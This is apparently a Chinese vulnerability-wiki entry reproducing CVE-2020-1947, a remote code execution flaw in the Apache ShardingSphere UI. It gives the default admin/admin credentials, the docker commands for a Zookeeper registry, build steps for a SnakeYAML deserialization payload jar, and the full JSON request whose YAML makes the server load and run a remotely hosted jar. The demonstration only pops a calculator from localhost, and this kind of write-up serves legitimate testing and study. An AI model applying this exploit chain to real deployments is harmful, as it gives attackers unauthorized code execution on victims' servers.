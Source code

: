 （CVE-2020-1947）Apache ShardingSphere远程代码执行漏洞
======================================================

一、漏洞简介
------------

二、漏洞影响
------------

Apache ShardingSphere \< 4.0.1

三、复现过程
------------

Sharding-UI的默认密码为admin/admin

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-1947)ApacheShardingSphere远程代码执行漏洞/media/rId24.png)

顺带一提，在`conf/application.properties`中存储了WEB端的端口和账号密码。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-1947)ApacheShardingSphere远程代码执行漏洞/media/rId25.png)

### 安装Zookeeper

要想成功利用，需要先在Sharding-UI中添加一个注册中心，否则在后续利用中会提示`No activated registry center!`，所以需要搭建一个Zookeeper。
这里直接使用docker搭建Zookeeper，并且将2181端口映射出来到本地的2181端口。

    docker pull zookeeper
    docker run --privileged=true -d --name zookeeper --publish 2181:2181  -d zookeeper:latest

### 配置registry-center

在Sharding-UI的registry-center模块配置Zookeeper的地址。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-1947)ApacheShardingSphere远程代码执行漏洞/media/rId28.png)

成功连接即可。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-1947)ApacheShardingSphere远程代码执行漏洞/media/rId29.png)

### 生成payload

使用SnakeYAML反序列化小工具： https://github.com/ianxtianxt/yaml-payload
修改`src/artsploit/AwesomeScriptEngineFactory.java`文件，设置为弹出计算器。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-1947)ApacheShardingSphere远程代码执行漏洞/media/rId31.png)

编译生成jar包：

    javac src/artsploit/AwesomeScriptEngineFactory.java
    jar -cvf yaml-payload.jar -C src/ .

然后使用python本地搭建HTTPServer，等待连接。

    python -m SimpleHTTPServer 90

### 代码执行

在web端的Rule Config------\>Add Schema处加入YAML代码并提交。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-1947)ApacheShardingSphere远程代码执行漏洞/media/rId33.png)

数据包正文：

    {"name":"test","ruleConfiguration":"encryptors:\n    <encryptor-name>:\n      type: MD5\n      props:","dataSourceConfiguration":"!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://localhost:90/yaml-payload.jar\"]]]]"}

发送即可成功弹出计算器。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-1947)ApacheShardingSphere远程代码执行漏洞/media/rId34.png)

